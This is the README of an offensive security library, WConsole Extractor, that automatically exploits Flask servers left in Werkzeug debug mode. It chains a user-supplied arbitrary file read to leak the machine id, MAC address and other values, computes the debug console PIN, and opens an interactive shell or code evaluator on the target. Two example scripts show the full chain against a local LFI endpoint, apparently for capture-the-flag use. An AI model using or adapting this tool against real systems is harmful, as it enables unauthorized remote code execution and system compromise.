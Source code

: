 <h1 align="center">Welcome to WConsole Extractor 👋</h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.1-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  <a href="https://twitter.com/Ruulian_" target="_blank">
    <img alt="Twitter: Ruulian_" src="https://img.shields.io/twitter/follow/Ruulian_.svg?style=social" />
  </a>
</p>

> Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode. Moreover, you can call the `shell` function to obtain an interactive shell.

## ✨ Demo

![example_gif](.github/example.gif)

## 🔨 Install

### From PyPi

**Global installation**:

```sh
pip3 install wconsole-extractor
```

**Python virtual environment**:

```sh
python3 -m venv env
source env/bin/activate
pip3 install wconsole-extractor

# Deactivate environment
deactivate
```

### Installation from repository

**Global installation**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
pip3 install .
```

**Python virtual environment**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
python3 -m venv env
source env/bin/activate
pip3 install .

# Deactivate environment
deactivate
```

## 📚 Documentation

**Note**: The target operating system must be a Linux distribution.

### Prerequisites

In order to use correctly the library, you need to have an arbitrary file read on the target and implement it in python.

You must write a function that takes a filename as parameter and returns the content of the file on the target. If the file is not found, the function should return an **empty string**.

### Available attributes

From `WconsoleExtractor` instance, you can access mutiple attributes:

```py
# Target information
extractor.target               # Specified target
extractor.base_url             # Target base url
extractor.hostname             # hostname

# Versions
extractor.python_version       # Python version
extractor.werkzeug_version     # Werkzeug version

# Probably public bits
extractor.username             # User who launched the application
extractor.flask_path           # Flask installation path
extractor.modname              # Constant "flask.app"
extractor.class_name           # Constant "Flask"
extractor.probably_public_bits # Probably public bits [username, modname, class_name, flask_path]

# Private bits
extractor.machine_id           # Machine id
extractor.uuidnode             # MAC address in decimal
extractor.private_bits         # private bits

# Post process information
extractor.pin_code             # Werkzeug PIN CODE
extractor.token                # Werkzeug console token (available in HTML source code)

# Functions
extractor.shell()              # Get interactive shell
extractor.debugger()           # Get interactive code evaluator
```

### Examples

#### Spawn a Shell

```py
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://localhost:5000/lfi?path={filename}")
    if r.status_code == 200:
        return r.text
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://localhost:5000",
    leak_function=leak_function,
    debugger_path="/flag", # Custom debugger path (default: /console)
)


info(f"PIN CODE: {extractor.pin_code}")
extractor.runner()
```
#### Spawn a Code Debugger
```py
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://localhost:5000/lfi?path={filename}")
    if r.status_code == 200:
        return r.text
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://localhost:5000",
    leak_function=leak_function,
    debugger_path="/flag", # Custom debugger path (default: /console)
    spawn_shell = False    # Disable shell spawn and spawn a code debugger (default: True)
)

info(f"PIN CODE: {extractor.pin_code}")
extractor.runner()
```

## Author

👤 **Ruulian**

* Website: https://ruulian.me
* Twitter: [@Ruulian_](https://twitter.com/Ruulian_)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/Ruulian/wconsole_extractor/issues). 

## Show your support

Give a ⭐️ if this project helped you!

## 📝 License

This project is [MIT](https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE) licensed.

***
_This README was generated with ❤️ by [readme-md-generator](https://github.com/kefranabg/readme-md-generator)_